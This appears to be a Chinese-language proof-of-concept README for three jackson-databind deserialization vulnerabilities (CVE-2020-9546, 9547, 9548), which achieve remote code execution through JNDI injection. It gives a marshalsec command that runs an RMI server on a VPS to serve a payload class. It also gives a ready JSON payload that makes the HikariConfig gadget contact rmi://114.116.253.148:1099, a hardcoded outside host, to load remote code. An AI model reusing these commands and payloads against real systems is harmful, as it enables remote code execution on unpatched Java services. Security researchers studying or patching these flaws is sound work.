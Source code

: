 

## 概述

FasterXML/jackson-databind是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

三个利用链皆是黑名单绕过，在反序列化期间触发其指定的方法，最终实现JNDI注入远程代码执行。


![](1.jpg)


## 影响版本

2.0.0 <= FasterXML jackson-databind < 2.9.10.4

https://github.com/Fasterxml/jackson-databind/releases

https://github.com/FasterXML/jackson-databind/issues/2634


## 下载jar包

如果在git上源码无法用mvn编译成功，可以直接在mvn仓库下载jar包。

https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-databind/2.9.10.3/jackson-databind-2.9.10.3.jar

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099

## CVE-2020-9547

依赖下面这2个jar

![](CVE-2020-9547-2.jpg)

效果：

![](CVE-2020-9547.jpg)

## CVE-2020-9548

环境，jdk1.8 , 1.7会提示 jar包最低适配版本1.8

依赖下面这三个jar,现实盲打难度大

![](CVE-2020-9548-2.jpg)

效果：

![](CVE-2020-9548.jpg)

## CVE-2020-9546      03/01/2020

漏洞公告: https://nvd.nist.gov/vuln/detail/CVE-2020-9546

https://www.findjar.com/ 这个网站可以找到一些jar,

未找到 org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig  class

后来经过大佬提醒(https://github.com/fairyming/CVE-2020-9547/issues/1),是这个jar -> hadoop-client-minicluster-3.2.1.jar ,这我怎么可能找到嘛:) 暂不知道如何根据 class 名找到 jar包名，估计就是根据相关开发人员经验，2是mvn仓库搜包名一个一个试吧。


payload1:

	payload1 = "[\"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig\",   {\"metricRegistry\":\"rmi://114.116.253.148:1099/TouchFile\"}]";
		
完整payload 见 Main.java

![](CVE-2020-9546.jpg)


## 参考资料

[CVE-2020-9546/7/8：FasterXML/jackson-databind 远程代码执行漏洞处置通告](https://www.anquanke.com/post/id/200010)


[官方mvn仓库](https://mvnrepository.com/)
